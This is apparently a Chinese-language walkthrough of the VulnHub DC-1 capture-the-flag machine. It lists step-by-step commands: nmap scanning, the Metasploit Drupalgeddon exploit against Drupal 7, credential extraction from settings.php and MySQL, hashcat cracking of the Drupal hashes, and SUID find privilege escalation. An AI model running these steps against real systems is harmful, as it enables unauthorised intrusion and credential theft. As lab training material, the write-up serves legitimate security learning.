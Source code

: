 # DC 1

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-1,292/

## 知识点

- drupal漏洞利用
- linux提权-suid提权
- hashcat跑密码

## 信息收集

1.IP探测
```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 192.168.2.0/24 # IP探测 扫描本地C段的网络端口信息
```
![image](./img/vulnhub-dc1-1.png)

2.扫描目标全端口

```bash
nmap -T5 -A -v -p- 192.168.2.22
nmap 192.168.2.22
```

![image](./img/vulnhub-dc1-2.png)

可以扫出 22 80 111三个端口

## 漏洞利用

访问80端口发现服务为drupal 7

```
msfconsole
search drupal
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.2.22
run
```

![image](./img/vulnhub-dc1-3.png)

利用成功弹回meterpreter会话,然后cmd shell下
```
shell
```

![image](./img/vulnhub-dc1-4.png)


getshell后第一件事是使用python命令获取一个正常的tty,否则有些命令可能无法执行。

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

### 0x01-flag1

目前权限是www-data,读取flag1.txt,估摸着是权限不够，只读取到一个flag1.txt,读取flag1.txt
```bash
find / -name flag*
cat flag1.txt
```

![image](./img/vulnhub-dc1-5.png)
![image](./img/vulnhub-dc1-6.png)

提示CMS的配置文件有东西

### 0x02-flag2

google搜索drupal数据库配置文件(配置文件不存在，所以搜的数据库文件)

```bash
find /var -name settings.php
cat /var/www/sites/default/settings.php
```

![image](./img/vulnhub-dc1-7.png)

可以看到flag2的内容以及mysql的数据库账号密码，尝试登录数据库

### 0x03-flag3

```bash
mysql -udbuser -pR0ck3t
use drupaldb
show tables
```

![image](./img/vulnhub-dc1-8.png)

尝试读取users表

```
select * from users;
select name,pass from users;
```


![image](./img/vulnhub-dc1-9.png)


接着用hashcat爆破跑密码的hash的明文，需要先知道drupal的hash id

```bash
hashcat --help | grep "Drupal"  # 获得7900
```

hash保存源文件
```bash
echo "\$S\$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR" > source.txt
echo "\$S\$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg" >> source.txt
```

接着爆破需要密码表，这里我用的我团队的字典项目
- https://github.com/ffffffff0x/AboutSecurity/tree/master/Dic/Auth/password
```
hashcat -m 7900 -a 0 source.txt pass01.txt

-m 指定要破解的 hash 类型，如果不指定类型，则默认是 MD5
-a 指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
source.txt 你要爆破的 hash 列表
pass01.txt 你的密码表
```

kali虚拟机跑不起来，问了朋友说是虚拟机显卡问题，在我自己Windows跑了下没问题。

![image](./img/vulnhub-dc1-10.png)

可以看到分别跑出密码为:53cr3t和Mypassword,第一个拿去登录网站admin/53cr3t,在dashborad发现flag3

![image](./img/vulnhub-dc1-11.png)

翻译就是：特殊权限将有助于查找密码 - 但您需要 -exec 该命令才能确定如何获取隐藏中的内容

### 0x04-flag4

```bash
cat /etc/passwd
```

![image](./img/vulnhub-dc1-12.png)

发现flag4用户，读取
```bash
cat /home/flag4/flag4.txt
```

```
Can you use this same method to find or access the flag in root?
Probably. But perhaps it's not that easy.  Or maybe it is?
```
提示需要提权

### 0x05-flag5

考点：find的suid提权

```bash
find / -perm -u=s -type f 2>/dev/null

两种方法：
find . -exec /bin/sh \;  # 直接提权
find flag4.txt -exec "/bin/sh" \; 
ls /root
cat /root/thefinalflag.txt
```

![image](./img/vulnhub-dc1-13.png)
![image](./img/vulnhub-dc1-14.png)

提权成功，得到flag5
## 参考链接
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC1-WalkThrough.md
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/kh0cna